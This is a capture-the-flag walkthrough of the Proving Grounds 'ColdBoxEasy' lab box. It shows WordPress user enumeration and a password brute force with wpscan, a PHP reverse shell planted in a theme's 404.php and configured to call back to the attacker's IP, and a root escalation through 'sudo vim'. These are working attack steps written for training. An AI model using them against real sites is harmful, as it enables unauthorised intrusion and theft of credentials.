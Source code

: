 # Proving Grounds Play - ColdBoxEasy

#### Ip: 192.168.220.248
#### Name: ColdBoxEasy
#### Rating: Easy
#### Community Rating: Easy

------------------------------------------------

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ sudo nmap -p- -sC -sV --min-rate=10000 192.168.167.239
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-24 12:57 CDT
Nmap scan report for 192.168.167.239
Host is up (0.071s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4ebf98c09bc536808c96e8969565973b (RSA)
|   256 8817f1a844f7f8062fd34f733298c7c5 (ECDSA)
|_  256 f2fc6c750820b1b2512d94d694d7514f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.82 seconds
```

Looking at the page on port 80 we find it is running WordPress.

![pgplay_coldboxeasy_site.png](../assets/coldboxeasy_assets/pgplay_coldboxeasy_site.png)

Kicking off some scanning against the site using wpscan, we find some usernames:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url 192.168.167.239 --enumerate vp,u,vt,tt
```

pgplay_coldboxeasy_usernames.png


Directory fuzzing reveals: http://192.168.167.239/hidden/ which contains an interesting message:

```

U-R-G-E-N-T
C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```

### Exploitation

From here we find we can bruteforce user c0ldd's password using wpscan:

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ wpscan --url http://192.168.167.239/wp-login.php --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt
<SNIP>
[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

Let's use this to login:

pgplay_coldboxeasy_in.png

We can now grab a copy of PentestMonkey's famous php-reverse-shell.php and update the variables for our attacking box:

```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.171';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Let's then copy the script and go to Appearance > Themes > Editor, and overwrite the 404.php code.

pgplay_coldboxeasy_themes.png

From here we can set up a nc listener and navigate to http://192.168.167.239/wp-content/themes/twentyfifteen/404.php to trigger our shell.

```
┌──(ryan㉿kali)-[~/PG/Play/ColdBoxEasy]
└─$ nc -lnvp 9001                   
listening on [any] 9001 ...
connect to [192.168.45.171] from (UNKNOWN) [192.168.167.239] 33962
Linux ColddBox-Easy 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:31:49 up 37 min,  0 users,  load average: 0.00, 0.08, 0.27
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ColddBox-Easy
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ 
```

We can now grab the local.txt flag:

pgplay_coldboxeasy_user.png

### Privilege Escalation

Looking at the wp-config.php file in `/var/www/html` we find some credentials:

pgplay_coldboxeasy_creds.png

We can use these to `su c0ldd`:

```
www-data@ColddBox-Easy:/var/www/html$ su c0ldd
Password: 
c0ldd@ColddBox-Easy:/var/www/html$ whoami
c0ldd
```

Seeing what c0ldd can run with elevated permissions:

```
c0ldd@ColddBox-Easy:/var/www/html$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

Cool, we've got a few options here, let's exploit vim for a root shell:

Let's head to gtfobins and grab the command we'll need: https://gtfobins.github.io/gtfobins/vim/#sudo

```
sudo /usr/bin/vim -c ':!/bin/sh'
```

We can now grab the root flag:

pgplay_coldboxeasy_root.png

Thanks for following along!

-Ryan

